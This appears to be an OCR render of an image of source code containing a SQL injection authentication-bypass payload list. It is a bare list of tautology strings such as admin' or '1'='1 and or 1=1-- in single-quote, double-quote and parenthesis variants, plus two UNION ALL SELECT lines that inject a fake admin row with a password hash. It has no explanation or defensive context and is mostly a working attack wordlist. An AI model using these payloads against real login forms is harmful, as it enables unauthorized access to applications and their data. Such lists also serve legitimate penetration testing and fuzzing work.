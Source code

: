      ' or 'x'='x
     ') or ('x')=('x
     ')) or (('x'))=(('x
     " or "x"="x
     ") or ("x")=("x
     ")) or (("x"))=(("x
     or 1=1
     or 1=1--
     or 1=1#
     or 1=1/*
     admin' --
     admin' #
     admin'/*
     admin' or '1'='1
     admin' or '1'='1'--
     admin' or '1'='1'#
     admin' or '1'='1'/*
     admin'or 1=1 or ''='
     admin' or 1=1
     admin' or 1=1--
     admin' or 1=1#
     admin' or 1=1/*
     admin') or ('1'='1
     admin') or ('1'='1'--
     admin') or ('1'='1'#
     admin') or ('1'='1'/*
     admin') or '1'='1
     admin') or '1'='1'--
     admin') or '1'='1'#
     admin') or '1'='1'/*
     1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
     admin" --
     admin" #
     admin"/*
     admin" or "1"="1
     admin" or "1"="1"--
     admin" or "1"="1"#
     admin" or "1"="1"/*
     admin"or 1=1 or ""="
     admin" or 1=1
     admin" or 1=1--
     admin" or 1=1#
     admin" or 1=1/*
     admin") or ("1"="1
     admin") or ("1"="1"--
     admin") or ("1"="1"#
     admin") or ("1"="1"/*
     admin") or "1"="1
     admin") or "1"="1"--
     admin") or "1"="1"#
     admin") or "1"="1"/*
     1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
